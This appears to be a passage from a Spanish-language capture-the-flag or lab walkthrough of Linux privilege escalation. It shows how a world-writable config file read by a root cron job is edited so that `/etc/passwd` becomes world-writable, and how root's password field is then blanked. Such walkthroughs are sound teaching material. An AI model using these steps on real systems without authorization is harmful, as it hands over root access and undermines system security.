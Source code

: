 el servicio `cron` esta inciado lo que me hace pensar que se programo alguna tarea, por lo que chequeo `/etc/crontab`

![image](https://github.com/user-attachments/assets/f9838765-7f46-4595-b4b0-ab012595239a)

en efecto se a programado una tarea y vemos que es ejecutado cada minuto un script en `/opt/scripts/manage_files.sh` por lo que chequeo el script

```ruby
cat /opt/scripts/manage_files.sh

#!/bin/bash

# Leer el archivo de configuración
source /opt/config/secure.conf

if [ "$safe_mode" = "true" ]; then
    chmod 600 /etc/passwd
    echo "Sistema en modo seguro."
else
    chmod 666 /etc/passwd
    echo "Sistema en modo inseguro."
fi
```

el script lo que hace es comprobar el archivo de configuracion en `/opt/config/secure.conf` para validar de que `safe_mode` sea `true` y asignar los permisos `600`
al archivo `/etc/passwd` y en caso contrario de que `safe_mode` no sea `true`, entonces se le asignan los permisos `666` al archivo `/etc/passwd`; asi que chequeo
que permisos tiene el archivo de configuracion `/opt/config/secure.conf` para ver si puedo editarlo

```ruby
ls -la /opt/config/secure.conf
-rw-rw-rw- 1 0 root 15 Dec 10 13:18 /opt/config/secure.conf
```
puedo editar el archivo, asi que lo edito para que `mode_safe` no sea `true` y el script `/opt/scripts/manage_files.sh` le asigne permisos `666` a `/etc/passwd` y poder
escalar a `root`

```ruby
echo 'safe_mode=false' > /opt/config/secure.conf
```

ya modificado el archivo de configuracion queda esperar un poco a que se vuelva ejecutar la tarea programada en `crontab` y se le asignen los permisos `666` a `/etc/passwd`

```ruby
ls -la /etc/passwd
-rw-rw-rw- 1 root root 1375 Dec 10 13:12 /etc/passwd
```

ya fueron asignados los permisos luego de un par de segundos... estos permisos me permiten editar el archivo `/etc/passwd`, aqui solo elimino la `x` que contiene `root`
en su linea para asi poder escalar a `root`

![image](https://github.com/user-attachments/assets/483260e8-6d66-4d95-b4a2-d91688efa915)
